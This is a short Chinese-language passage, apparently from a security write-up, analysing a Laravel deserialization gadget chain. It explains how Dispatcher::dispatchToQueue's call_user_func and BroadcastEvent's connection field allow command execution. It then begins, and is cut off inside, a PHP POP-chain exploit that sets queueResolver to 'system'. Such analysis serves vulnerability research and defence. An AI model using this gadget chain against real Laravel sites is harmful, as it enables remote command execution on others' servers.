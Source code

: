 <div align=center><img src="./images/5.png"></div>

跟进`dispatchToQueue`方法, `$command`和`$this->queueResolver`均是可控的, 不难看出可以利用该方法中的`call_user_func`方法来进行命令执行的利用.

<div align=center><img src="./images/6.png"></div>

现在需要解决的就是命令执行的语句, 注意到上图中的代码`$connection = $command->connection ?? null;`, 这里可以通过`src/Illuminate/Broadcasting/BroadcastEvent.php`中的类中变量来控制`$connection`, 从而达到命令执行的目的.

## POP Chain

```php
<?php

namespace Illuminate\Contracts\Queue{

    interface ShouldQueue {}
}

namespace Illuminate\Bus{

    class Dispatcher{
        protected $container;
        protected $pipeline;
        protected $pipes = [];
        protected $handlers = [];
        protected $queueResolver;
        function __construct()
        {
            $this->queueResolver = "system";
```